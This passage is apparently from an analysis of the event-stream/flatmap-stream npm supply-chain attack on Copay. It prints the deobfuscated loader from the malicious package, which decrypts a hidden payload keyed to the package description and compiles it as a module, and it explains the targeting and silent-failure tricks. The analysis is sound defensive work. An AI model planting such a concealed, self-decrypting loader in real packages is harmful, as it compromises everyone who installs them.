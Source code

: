 
Line 9 extracts the fourth and fifth string from the data file. Variable
`o` has been renamed to `desc` for readability:

``` {.js xleftmargin="\\parindent" linenos="" fontsize="\\small"}
var desc = process.env.npm_package_description;
```

This line fetches the description of the package from the `node.JS`
environment. The `if` statement on line 10 ensures that the
description is not blank.

From line 11 up to line 15 we repeat the process of getting a line from
the auxiliary data file and converting it to string. We do that in order
to deobfuscate the rest of the function. Moreover, we rename variable
`u` to `decipher`, `a` to `text`, and `f` to
`newModule`. By doing so, we get:

``` {.js xleftmargin="\\parindent" linenos="" fontsize="\\normalsize"}
var decipher = require("crypto").
createDecipher("aes256", desc);
var text = decipher.update(testData[0], "hex", "utf8");
text += decipher.final("utf8");
var newModule = new module.constructor();
newModule.paths = module.paths;
newModule._compile(text, "");
newModule.exports(testData[1]);
```

These lines of code perform the following actions:

1.  Using the package description fetched previously, it creates a
    `decipher` instance.

2.  It uses the `decipher` instance to decrypt the first line
    (which consists of binary data) from the file.

3.  A new module is created with the decrypted data from the file as its
    source, and the second line from the file is exported from that
    module.

Since the description of a specific npm package is used as the
decryption key, payloads B and C are decrypted correctly only when
`flatmap-stream` is part of the dependency tree through
`event-stream`. Hence, the scope of the attack is limited to Copay,
which also helps minimize detection risk.

A common theme among all three payloads, is the presence of
`try-catch` statements. These ensure that if any part of malicious
code fails, the attack would fail silently, raising no suspicion.

## Payload B

After successful decryption of the first line of the data file from
payload A, payload B is created as a new module. Payload B acts as the
injector. This new unobfuscated module looks as follows:


[^1]: User's \@right9ctrl GitHub account is now deleted.
[^2]: Minification is the process of removing comments, non-essential
[^3]: Not to be confused with the malicious code payloads